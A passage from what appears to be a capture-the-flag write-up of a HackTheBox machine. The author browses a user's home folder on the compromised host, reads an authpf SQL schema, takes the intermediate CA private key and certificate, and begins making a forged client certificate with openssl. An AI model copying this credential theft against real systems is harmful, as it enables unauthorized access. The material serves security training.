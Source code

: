     fortune> ls /home/nfsuser
    
    

bob has two folders:

    
    
    fortune> ls /home/bob
    ca
    dba
    

In the `dba` folder, there’s an sql file about `authpf`:

    
    
    fortune> cat /home/bob/dba/authpf.sql
    CREATE TABLE authorized_keys (
            uid text,
            creator cidr,
            key text,
            PRIMARY KEY (uid,creator)
    );
    grant select,insert,update on authorized_keys to appsrv;
    grant select on authorized_keys to bob;
    

I’ll come back to that later.

The `ca` folder has a bunch of interesting stuff, but the `intermediate`
folder catches my eye thinking back to the CA from `sslyze`. I find both the
certificate and the key:

    
    
    fortune> ls /home/bob/ca/intermediate/private
    fortune.htb.key.pem
    intermediate.key.pem
    fortune> ls /home/bob/ca/intermediate/certs
    ca-chain.cert.pem
    fortune.htb.cert.pem
    intermediate.cert.pem
    

I’ll grab both `intermediate.key.pem` and `intermediate.cert.pem`, and bring
copies back to my box.

### Create Client Certificate

I’ll use the CA cert and key to create a client certificate. First, I’ll
[generate a key](https://www.openssl.org/docs/man1.0.2/man1/genrsa.html) for
this certificate:

    
    
    root@kali# openssl genrsa -out 0xdf.key 2048
    Generating RSA private key, 2048 bit long modulus (2 primes)
    ................+++++
    .....................................................+++++
    
